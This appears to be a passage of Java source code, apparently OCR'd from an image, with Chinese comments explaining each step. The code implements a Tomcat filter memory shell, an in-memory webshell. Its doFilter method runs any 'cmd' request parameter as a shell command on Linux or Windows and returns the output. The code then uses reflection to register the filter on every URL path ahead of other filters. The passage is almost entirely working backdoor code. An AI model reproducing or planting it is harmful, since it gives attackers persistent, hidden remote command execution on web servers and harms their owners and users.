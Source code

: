 ```java
                    }

                    @Override
                    public void destroy() {
                    }

                    @Override
                    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws ServletException, IOException {
                        HttpServletRequest httpServletRequest = (HttpServletRequest) request;
                        HttpServletResponse httpServletResponse = (HttpServletResponse) response;

                        if (httpServletRequest.getParameter("cmd") != null) {
                            boolean isLinux = true;
                            String osType = System.getProperty("os.name");
                            if (osType != null && osType.toLowerCase().contains("win")) {
                                isLinux = false;
                            }

                            String[] command = isLinux ? new String[]{"sh", "-c", httpServletRequest.getParameter("cmd")} : new String[]{"cmd.exe", "/c", httpServletRequest.getParameter("cmd")};
                            InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                            Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                            String output = scanner.hasNext() ? scanner.next() : "";
                            httpServletResponse.getWriter().write(output);
                            httpServletResponse.getWriter().flush();
                            return;
                        }
                        chain.doFilter(request, response);
                    }
                };

                // 反射获取FilterDef, 设置filter名等参数, 调用addFilterDef添加FilterDef
                Class<?> filterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
                Constructor<?> filterDefDeclaredConstructor = filterDef.getDeclaredConstructor();
                filterDefDeclaredConstructor.setAccessible(true);
                FilterDef filterDef1 = (FilterDef) filterDefDeclaredConstructor.newInstance();
                filterDef1.setFilter(filter);
                filterDef1.setFilterName(filterName);
                filterDef1.setFilterClass(filter.getClass().getName());
                standardContext.addFilterDef(filterDef1);

                // 反射获取FilterMap并设置拦截路径, 调用addFilterMapBefore添加FilterMap
                Class<?> filterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                Constructor<?> filterMapDeclaredConstructor = filterMap.getDeclaredConstructor();
                filterMapDeclaredConstructor.setAccessible(true);
                FilterMap filterMap1 = (FilterMap) filterMapDeclaredConstructor.newInstance();
                filterMap1.addURLPattern("/*");
                filterMap1.setFilterName(filterName);
                filterMap1.setDispatcher(DispatcherType.REQUEST.name());
                standardContext.addFilterMapBefore(filterMap1);

                // 反射获取ApplicationFilterConfig
                Class<?> applicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
                Constructor<?> applicationFilterConfigDeclaredConstructor = applicationFilterConfig.getDeclaredConstructor(Context.class, FilterDef.class);
                applicationFilterConfigDeclaredConstructor.setAccessible(true);
                ApplicationFilterConfig applicationFilterConfig1 = (ApplicationFilterConfig) applicationFilterConfigDeclaredConstructor.newInstance(standardContext, filterDef1);
```
